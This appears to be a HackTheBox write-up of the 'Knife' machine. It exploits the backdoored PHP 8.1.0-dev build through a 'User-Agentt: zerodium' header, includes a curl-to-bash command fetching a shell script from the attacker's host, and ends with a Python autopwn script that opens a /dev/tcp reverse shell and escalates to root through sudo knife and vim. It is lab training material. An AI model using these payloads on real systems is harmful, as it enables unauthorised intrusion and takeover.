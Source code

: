```yaml
---
title: Knife Writeup [HTB]
tags: [HackTheBox, php]
image: /assets/images/knife/knife.png
published: true
banner: true
---
```


Knife is a linux based machine that was active since May 22th of 2021 to August 28th, on this machine we will get code execution through a backdoor that was left on the PHP repository, and escalate privileges due to an executable that allows us to set our editor for editing files, so we set vim and spawn a shell.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.242
nmap -sC -sV -p 22,80, -Pn -o scan.txt 10.10.10.242

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  1 14:22:16 2021 -- 1 IP address (1 host up) scanned in 13.13 seconds
```

We only find SSH and HTTP running, so we visite the webpage.

![](/assets/images/knife/website.png)

It looks like a site related to health, if we run `whatweb` we find something interesting.

![](/assets/images/knife/whatweb.png)

The site uses PHP 8.1.0-**dev**, why it would use a development version?

# [](#header-1)Gaining Access

If you were up to date with the news probably you heard about this, someone left a backdoor inside the PHP repository, [here](https://unaaldia.hispasec.com/2021/03/detectada-una-puerta-trasera-en-el-repositorio-oficial-de-php.html) an article in spanish, so the backdoor works by adding the header "User-Agentt" (yes, with double "t"), and start with "zerodium", after "zerodium" string everything will be executed by php, so we test to run id command.

![](/assets/images/knife/bdtest.png)

As we see we get back the output of the command, so we can execute a reverse shell command (we could also get the id_rsa key of james, but it's password protected, and since the server is running under james there is no difference), so we start a http server with python, and serve a bash reverse shell) so we run `curl -s http://10.10.10.242/ -H 'User-Agentt: zerodiumsystem("curl 10.10.16.34:8000/shell.sh | bash");'`, and we get a shell as james and retrieve user.txt.

![](/assets/images/knife/shell.png)

# [](#header-1)Privilege Escalation

Checking if we can execute anything with sudo we see that we can run knife as root.

![](/assets/images/knife/sudo.png)

We check the help of the command and something quickly calls our attetion, we can specify the editor that we want to use on certain commands.

![](/assets/images/knife/knifehelp.png)

There is also a [link](https://docs.chef.io/workstation/knife/) to the documentation of the tool, then we run `sudo knife list` to see what we have available, we see /members.json, so let's try to edit it and set vim as our editor, then we can execute a shell with vim and finish with the machine: `sudo knife edit /members.json -e vim`.

![](/assets/images/knife/root.png)

# [](#header-1)Autopwn

Since the machine was really short I decided to write an autopwn for it, it uses the backdoor to spawn a reverse shell, and uses vim to escalate the privileges.

```python
#!/usr/bin/env python3

from pwn import *
import base64
import sys
import signal
import requests
import time
import threading

def def_handler(sig, fram):
    print ("Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 3:
    print ("Print please provide the IP of the target machine and the local machine")
    print ("Example usage: python3 autopwn.py 10.10.10.242 10.10.16.250")
    sys.exit(1)

ip = sys.argv[1]
local = sys.argv[2]
rev_shell = 'bash -i >& /dev/tcp/' + local + '/54321 0>&1'
encoded = base64.b64encode(rev_shell.encode("utf-8")).decode("utf-8")
p1 = log.progress("Pwning")

def log_mess(mess):
    p1.status(mess)
    time.sleep(1)
    
def spawn_shell():
    time.sleep(2)
    try:
        requests.get("http://" + ip, headers={'User-Agentt': f'zerodiumsystem("echo -n {encoded}|base64 -d|bash");'},timeout=2)
    except requests.exceptions.ReadTimeout:
        pass

log_mess("Executing reverse shell")
threading.Thread(target=spawn_shell).start()
rem = listen(54321,timeout=10)
rem.recv(1024)

log_mess("Getting user flag")
rem.send("cat /home/james/user.txt \n")
time.sleep(1)
log.success("User flag: " + rem.recv(1024).decode('utf-8').split("\n")[2])

log_mess("Escalating privileges")
rem.send("sudo knife edit /members.json -e vim\n")
time.sleep(5)
rem.recv(1024)
rem.send(":set shell=/bin/bash\n")
time.sleep(1)
rem.recv(1024)
rem.send(":shell\n")
time.sleep(1)
rem.recv(1024)
rem.send("id\n")
time.sleep(1)
log.success("We are root: " + rem.recv(1024).decode('utf-8').strip())

log_mess("Getting root flag")
rem.send("cat /root/root.txt\n")
time.sleep(1)
log.success( "Root flag: " + rem.recv(1024).decode('utf-8').strip())

p1.success("Machine owned!!")
rem.send("script -qc /bin/bash /dev/null\n")
rem.recv(1024)
rem.interactive(prompt=None)
rem.close()
```

![](/assets/images/knife/autopwn.gif)